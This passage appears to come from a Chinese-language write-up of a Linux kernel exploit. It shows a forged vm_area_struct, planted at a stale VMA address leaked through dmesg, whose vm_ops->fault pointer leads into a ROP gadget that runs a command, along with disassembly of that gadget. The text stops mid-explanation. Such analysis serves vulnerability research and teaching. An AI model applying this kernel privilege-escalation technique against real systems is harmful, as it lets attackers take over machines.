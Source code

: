 ```
char kernel_cmd[8] = "/tmp/%1";
struct vm_area_struct fake_vma = `{`
    .vm_start = 0x7fffffffd000,
    .vm_end = 0x7fffffffe000,
    .vm_rb = `{`
        .__rb_parent_color =
            (eventfd_fops-0xd92ce0), //run_cmd: 0xffffffff810b09a0
        .rb_right = vma_kaddr
            + offsetof(struct vm_area_struct, vm_rb.rb_left)
        /*rb_left reserved for kernel_cmd*/
    `}`,
    .vm_mm = mm,
    .vm_flags = VM_WRITE|VM_SHARED,
    .vm_ops = vma_kaddr
        + offsetof(struct vm_area_struct, vm_private_data)
        - offsetof(struct vm_operations_struct, fault),
    .vm_private_data = eventfd_fops-0xd8da5f,
    .shared = `{`
        .rb_subtree_last = vma_kaddr
            + offsetof(struct vm_area_struct, shared.rb.__rb_parent_color)
            - 0x88,
        .rb = `{`
            .__rb_parent_color = eventfd_fops-0xd9ebd6
        `}`
    `}`
`}`;
```

vm_ops的位置是

```
.vm_ops = vma_kaddr
        + offsetof(struct vm_area_struct, vm_private_data)
        - offsetof(struct vm_operations_struct, fault),
```

vma_kaddr的值就是我们通过dmesg获得的已经失效的vma缓存的地址，也就是我们将要通过bpf伪造的vma，这样的话我们调用vm-&gt;vm_ops-&gt;fault就是等于调用了 vma_kaddr + offsetof(struct vm_area_struct, vm_private_data)，而这个值在我们伪造的vma中是vm_private_data，我们已经将其伪造成了内核rop：

```
ffffffff810b5c21: 49 8b 45 70           mov rax,QWORD PTR [r13+0x70]
ffffffff810b5c25: 48 8b 80 88 00 00 00  mov rax,QWORD PTR [rax+0x88]
ffffffff810b5c2c: 48 85 c0              test rax,rax
ffffffff810b5c2f: 74 08                 je ffffffff810b5c39
ffffffff810b5c31: 4c 89 ef              mov rdi,r13
ffffffff810b5c34: e8 c7 d3 b4 00        call ffffffff81c03000 &lt;__x86_indirect_thunk_rax&gt;
```

&lt;__x86_indirect_thunk_rax&gt;就是等于是 call rax，而rax的值是r13+0x88，r13的值就是我们伪造的vma的地址。也就是call vma struct+0x88的位置，

在这个位置是
